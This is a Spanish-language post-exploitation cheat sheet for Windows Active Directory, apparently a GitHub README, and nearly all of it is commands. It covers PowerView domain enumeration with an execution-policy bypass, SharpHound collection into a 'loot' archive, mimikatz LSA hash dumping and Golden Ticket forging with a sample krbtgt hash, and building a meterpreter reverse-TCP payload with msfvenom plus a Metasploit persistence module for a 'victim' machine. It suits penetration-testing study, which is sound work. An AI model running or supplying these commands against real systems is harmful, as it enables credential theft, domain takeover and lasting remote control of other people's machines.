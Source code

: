
# Herramientas para Post Explotación

## Más recursos
https://blog.harmj0y.net/
https://adsecurity.org/?page_id=1821
https://metasploit.help.rapid7.com/docs/about-post-exploitation
http://www.pentest-standard.org/index.php/Post_Exploitation
https://offsec.red/mimikatz-cheat-sheet/
https://gist.github.com/HarmJ0y/184f9822b195c52dd50c379ed3117993

## Herramientas usadas
https://powersploit.readthedocs.io/en/latest/
https://bloodhound.readthedocs.io/en/latest/data-collection/sharphound.html
https://github.com/gentilkiwi/mimikatz



## Powerview

Usar Powershell y ejecutar powerview.ps1
```
powershell -ep bypass
powerview.ps1
```

**Informacion de usuarios**
```
Get-Netuser | select cn
Get-Netuser | select name, objectsid
Get-UserProperty -Properties lastlogon
```

**Informacion de los grupos**
```
Get-NetGroup -GroupName *admin*
Get-NetGroup -AdminCount
get-netgroup -username admin2
get-netgroupMember -groupName "Administrators"
```

**Obtener Informacion de carpetas compartidas**
```
Invoke-ShareFinder 
Get-NetShare 
```

**btener las computadoras en el dominio**
```
# Todos
Get-NetComputer 

# Activos
Get-NetComputer -ping

# Información detallada de cada computadora en el dominio
Get-NetComputer -FullData 
Get-NetComputer -FullData | select operatingsystem 
```
**Información del dominio**
```
Get-NetDomain 
Get-NetDomainController 
Get-DomainSID
Get-DomainPolicy
```

**Mas comandos**
```
Find-LocalAdminAccess
Invoke-EnumerateLocalAdmin
Get-NetGPO
Get-NetLoggedOn
Get-NetRDPSession
```

**Obtener información de cada comando**
> `Help <comando>`



## BloodHound
Usar Powershell y ejecutar sharphound.ps1
> `.\Downloads\SharpHound.exe`

Obtener el archivo para bloodhound
> `Invoke-Bloodhound -CollectionMethod All -Domain CONTROLLER.local -ZipFileName loot.zip`

Ejecutar bloodhound
> `bloodhound`

## mimikatz

Usar Powershell y ejecutar `mimikatz.exe`
> `.\Downloads\mimikatz.exe`

Asegurarse de que la salida sea "Privilegio '20' ok
> `privilege::debug `

Obtener logs
> `log <FILENAME>`

Obtener los hashes
> `lsadump::lsa /patch`

Obtener identificadores necesarios para luego crear el `Golden Ticket`
> `lsadump::lsa /inject /name:krbtgt`

![](assets/1.png)

Basado en los datos obtenidos previamente( y que se muestran en la imagen) crear el `Golden Ticket` 
> `kerberos::golden /user:Administrator /domain:controller.local /sid:S-1-5-21-849420856-2351964222-986696166 /krbtgt:5508500012cc005cf7082a9a89ebdfdf /id:500`

Usar el Ticket dorado para acceder a otra maquina

Abrir un nuevo símbolo del sistema con privilegios elevados para todas las máquinas
misc::cmd

## Mantener acceso

Se crea un payload, se transfiere a la máquina victima y se ejecuta
> `msfvenom -p windows/meterpreter/reverse_tcp LHOST= LPORT= -f exe -o shell.exe`

Se configura el exploit
```
# se establece la conexion con un reverse tcp shell
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
run -z

# se genera persistencia  haciendo uso de la sesion creada previamente
use exploit/windows/local/persistence
sessions id
set session <ID>
run -z
```
